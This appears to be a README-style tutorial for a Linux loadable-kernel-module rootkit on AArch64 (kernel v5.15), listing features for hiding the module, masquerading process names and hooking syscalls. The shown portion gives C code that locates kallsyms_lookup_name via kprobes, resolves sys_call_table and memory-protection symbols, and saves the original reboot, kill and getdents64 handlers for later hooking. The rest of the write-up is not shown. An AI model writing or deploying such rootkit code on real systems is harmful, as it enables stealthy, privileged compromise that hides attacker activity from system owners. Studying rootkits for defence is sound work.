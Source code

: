 # Rootkit - Loadable Kernel Module
You can also see this document on [HackMD](https://hackmd.io/@Cr1xxty1RMCCkPcMXYPWeg/rootkit).
- [Intro_Rootkit](#Intro-Rootkit)
- [Explanation](#Explanation)
- [How to use this LKM](#How-to-use-this-LKM)
- [Reference](#Reference)

## Intro Rootkit
About Environment:
> Both the rookit and the test program run on an AArch64 machine.
> The rootkit work as an independent module on the mainline Linux v5.15.

Rootkit as you might have heard before, is essentially the malware that runs in the kernel space. To achieve these functions, you must implement it as a loadable kernel module (LKM). 

LKM runs in kernel mode and allows access to all kernel internal structures/functions. It can be used to extend the functionality of the running kernel, and thus it is also often used to implement device drivers to support new hardware.

It's a simple rootkit and provide the following functions: 
(1) hide/unhide module
(2) masquerade process name
(3) hook/unhook syscall 

## Explanation
After entering rootkit_init, first obtain the sys_call_table, and then save the address of the syscall table that will be replaced by the hook later.
```c=
__sys_call_table = get_syscall_table();
if(!__sys_call_table) {
    printk(KERN_INFO "Failed to find sys_call_table\n");
    return 1;
}

orig_reboot = (t_syscall)__sys_call_table[__NR_reboot];
orig_kill = (t_syscall)__sys_call_table[__NR_kill];
orig_getdents64 = (t_syscall)__sys_call_table[__NR_getdents64];
```

Using kprobe to locate `kallsyms_lookup_name`, then obtaining the required parameters from kallsyms_lookup_name.
```c=
static unsigned long *get_syscall_table(void)
{
    unsigned long *syscall_table;
	
    typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
    kallsyms_lookup_name_t kallsyms_lookup_name;
    register_kprobe(&kp);
    kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
    unregister_kprobe(&kp);

    syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
    update_mapping_prot = (void *)kallsyms_lookup_name("update_mapping_prot");
    start_rodata = (unsigned long)kallsyms_lookup_name("__start_rodata");
    init_begin = (unsigned long)kallsyms_lookup_name("__init_begin");

    printk(KERN_INFO "sys_call_table address: %p\n", syscall_table);
    return syscall_table;
}
```
